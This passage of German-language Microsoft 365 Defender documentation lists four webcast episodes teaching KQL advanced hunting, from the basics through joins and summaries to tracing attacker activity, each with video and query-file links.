|Folge 1: KQL-Grundlagen|Wir behandeln die Grundlagen erweiterter Suchfunktionen in Microsoft 365 Defender. Erfahren Sie mehr über die verfügbaren erweiterten Suchdaten und die grundlegende KQL-Syntax und -Operatoren.|[MP4](https://aka.ms/MTP15JUL20_MP4)|[YouTube](https://youtu.be/0D9TkGjeJwM)|[Folge 1: CSL-Datei auf Git](https://github.com/microsoft/Microsoft-threat-protection-Hunting-Queries/blob/master/Webcasts/TrackingTheAdversary/Episode%201%20-%20KQL%20Fundamentals.csl)|
|Folge 2: Joins|Wir werden weiterhin informationen zu Daten in der erweiterten Suche und zum Verknüpfen von Tabellen erhalten. Erfahren Sie mehr über innere, äußere, eindeutige und semi-Verknüpfungen und die Nuancen des standardmäßigen Kusto innerunique-Joins.|[MP4](https://aka.ms/MTP22JUL20_MP4)|[YouTube](https://youtu.be/LMrO6K5TWOU)|[Folge 2: CSL-Datei auf Git](https://github.com/microsoft/Microsoft-threat-protection-Hunting-Queries/blob/master/Webcasts/TrackingTheAdversary/Episode%202%20-%20Joins.csl)|
|Folge 3: Zusammenfassen, Pivotieren und Visualisieren von Daten|Da wir nun Daten filtern, bearbeiten und verknüpfen können, ist es an der Zeit, mit der Zusammenfassung, Quantifizierung, Pivotierung und Visualisierung zu beginnen. In dieser Folge behandeln wir den Zusammenfassungsoperator und einige der Berechnungen, die Sie ausführen können, während Sie in zusätzliche Tabellen im Schema für die erweiterte Suche wechseln. Wir wandeln unsere Datasets in Diagramme um, die zur Verbesserung der Analyse beitragen können.|[MP4](https://aka.ms/MTP29JUL20_MP4)|[YouTube](https://youtu.be/UKnk9U1NH6Y)|[Folge 3: CSL-Datei auf Git](https://github.com/microsoft/Microsoft-threat-protection-Hunting-Queries/blob/master/Webcasts/TrackingTheAdversary/Episode%203%20-%20Summarizing%2C%20Pivoting%2C%20and%20Joining.csl)|
|Folge 4: Lassen Sie uns suchen! Anwenden von KQL auf die Vorfallverfolgung|Zeit zum Nachverfolgen einiger Angreiferaktivitäten! In dieser Folge verwenden wir unser verbessertes Verständnis von KQL und die erweiterte Suche in Microsoft 365 Defender, um einen Angriff nachzuverfolgen. Erfahren Sie mehr über die Tipps und Tricks, die in diesem Feld zum Nachverfolgen von Angreiferaktivitäten verwendet werden, einschließlich der ABCs der Cybersicherheit und deren Anwendung auf die Reaktion auf Vorfälle.|[MP4](https://aka.ms/MTP5AUG20_MP4)|[YouTube](https://youtu.be/2EUxOc_LNd8)|[Folge 4: CSL-Datei auf Git](https://github.com/microsoft/Microsoft-threat-protection-Hunting-Queries/blob/master/Webcasts/TrackingTheAdversary/Episode%204%20-%20Lets%20Hunt.csl)|
|

## <a name="next-step"></a>Nächster Schritt

| <br>[Abschluss- und Zusammenfassungsphase](m365d-pilot-close.md)|Analysieren Sie Ihr Microsoft 365 Defender Pilotergebnis, stellen Sie sie Ihren Projektbeteiligten vor, und führen Sie den nächsten Schritt aus.
|:-----|:-----|
